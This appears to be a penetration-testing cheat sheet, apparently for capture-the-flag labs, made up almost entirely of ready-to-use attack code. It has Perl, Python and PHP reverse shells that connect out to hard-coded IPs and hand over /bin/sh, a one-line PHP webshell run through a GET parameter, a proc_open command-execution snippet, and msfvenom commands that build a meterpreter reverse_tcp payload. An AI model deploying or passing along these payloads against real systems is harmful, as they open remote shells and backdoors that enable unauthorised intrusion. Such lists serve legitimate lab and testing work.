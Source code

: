 ```
#!/usr/bin/perl -w
use Socket;
$i="10.10.14.41";
$p=4443;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
open(STDOUT,">&S");
open(STDERR,">&S");
exec("/bin/sh -i");
};
```

## Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
## very simple PHP webshell
```
<?php system($_GET["cmd"]);?>
```

### Command Execution with ``proc_open``
```
<?php

$cwd='/tmp';
$descriptorspec = array(
    0 => array("pipe", "r"),
    1 => array("pipe", "w"),
    2 => array("file", "/tmp/error-output.txt", "a") );
$process = proc_open("whoami", $descriptorspec, $pipes, $cwd);

echo stream_get_contents($pipes[1]);
fclose($pipes[1]);

?>

```

 
## Using msfvenom 
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.16 LPORT=4444 -f raw > shell.php
msfvenom -p windows/exec CMD="cmd.exe /c type flag.txt" -f python -b"x00\x0a\x0d\x25\x26\x2b\x3d"
```
